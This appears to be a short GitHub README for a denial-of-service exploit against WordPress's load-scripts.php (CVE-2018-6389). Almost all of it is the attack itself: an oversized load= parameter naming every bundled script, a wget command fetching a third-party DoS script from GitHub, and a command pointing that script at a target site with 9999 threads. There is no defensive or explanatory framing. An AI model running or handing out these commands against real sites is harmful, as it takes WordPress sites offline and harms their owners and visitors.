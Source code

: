 # Loadscript-payload
exploit /wp-admin/load-scripts.php
CVE-2018-6389


/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter


Download the Dos script
wget https://raw.githubusercontent.com/Quitten/doser.py/master/doser.py
Run the script
python doser.py -g 'https://target.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,
sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,
autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,
scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,
scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,
jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,
jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,
jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,
jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,
jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,
jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,
jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,
jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,
jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,
thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,
swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,
revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,
wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,
wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,
admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,
customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,
customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,
accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,
admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,
admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,
text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,
updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,
nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
